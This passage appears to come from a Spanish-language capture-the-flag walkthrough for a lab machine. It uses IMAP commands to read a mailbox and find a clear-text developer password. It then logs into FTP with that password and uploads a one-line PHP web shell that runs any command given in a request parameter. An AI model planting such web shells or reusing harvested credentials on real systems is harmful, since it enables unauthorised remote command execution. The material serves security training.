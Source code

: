 1. Seleccionar los mensajes enviados

    ```bash
    A4 SELECT "INBOX.Sent"
    ```

1. Seleccionar los items enviados

    ```bash
    A5 SELECT "INBOX.Sent Items"
    ```

1. Seleccionar lo que hay en la papelera

    ```bash
    A6 SELECT "INBOX.Deleted Items"
    ```

1. Vemos que hay dos elementos en los items enviados, los recuperamos

    ```bash
    A7 FETCH 1:2 BODY[]
    ```

En los bodys encontramos un un mensaje que pregunta para cambiar la contraseña del usuario developer poniendo 
y la contraseña original en texto claro.
En el otro mensaje otra vez hablan del servicio **Pypi**

Con el usuario y contraseña intentamos volver a conectar con **FTP**

### Conexion con FTP {-}

```bash
ftp 10.10.10.197

> Name: developer
> Password: contraseña
#Output
Connection succesful

dir
cd dev
dir
```

Aqui vemos el contenido de la web. Nos creamos la famosa `s4vishell.php`

```php
<?php
    echo "<pre>". shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

ahora con el ftp subimos el archivo.

```bash
put s4vishell.php
#Output
transfer complete
```
